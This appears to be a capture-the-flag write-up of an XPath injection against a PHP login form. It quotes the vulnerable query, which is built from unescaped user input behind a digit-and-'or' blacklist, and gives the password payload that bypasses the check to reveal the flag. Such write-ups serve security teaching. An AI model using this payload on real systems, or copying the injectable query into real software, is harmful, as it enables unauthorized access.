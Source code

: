 Given an authorization form, we try to insert quotes and get an error

Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 42

We understand that the request is processed using XPath. Going to the source code of the page, we find a link to the source code of the application. We see that user input via the login and password fields is filtered:

$blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');

Also, we observe a very strange verification of the correctness of the data entered by the user

$query = "//users/user[login/text()='$login' and password/text()='$pass']";

$result = $xml->xpath($query);
if(!$result){
    echo "Неверные логин или пароль";
}
else{
    $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
    $flag = $user_data->flag;
    echo "Твой флаг: ".$flag;
}

Given the filters, we get an injection:

login - admin
pass - '] | /* | /foo[bar='